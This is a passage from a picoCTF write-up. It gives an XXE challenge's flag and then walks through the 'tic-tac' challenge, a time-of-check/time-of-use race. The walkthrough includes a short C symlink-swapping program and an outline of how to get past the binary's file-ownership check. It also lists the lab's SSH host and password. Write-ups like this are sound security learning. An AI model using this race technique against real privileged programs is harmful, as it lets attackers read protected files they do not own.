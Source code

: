 And at the bottom we can see flag is:

> picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}

___
___

# tic-tac

**200 points**

AUTHOR: JUNIAS BONOU

Description
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:50591, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

*Note:* This challenge launches an instance on demand.

___

I don't want to curse but I hate this challenge.

I tried every possible idea with this symbolic linking script that is the only one on the internet and nothing else.

```cpp
#include <stdio.h>
#include<unistd.h>
#include <string.h>

int main(int argc, char * argv[]){
  unlink(argv[1]);
  symlink("/home/ctf-player/flag.txt",argv[1]);
}
```

But this is just **NOT FAST ENOUGH APPERANTLY**

Thank god `LiveOverflow` exists because after scraping the web with the utmost of `sus` google searches that probably put me on a list I found his video, directly solving this question [https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow](https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow) (you could skip this writeup and watch his video).

My explanation:

We want to create race conditions, such that the command execution would be like so:

```
--> Be a root file
--> Get checked by the programs if:
        // Check the file's owner.
        if (statbuf.st_uid != getuid()) {
            std::cerr << "Error: you don't own this file" << std::endl;
            return 1;
        }
--> Become readable with symbolic link
--> Get opened and read by the program:
        // Read the contents of the file.
        if (file.is_open()) {
            std::string line;
            while (getline(file, line)) {
            std::cout << line << std::endl;
            }
        } else {
            std::cerr << "Error: Could not open file" << std::endl;
            return 1;
```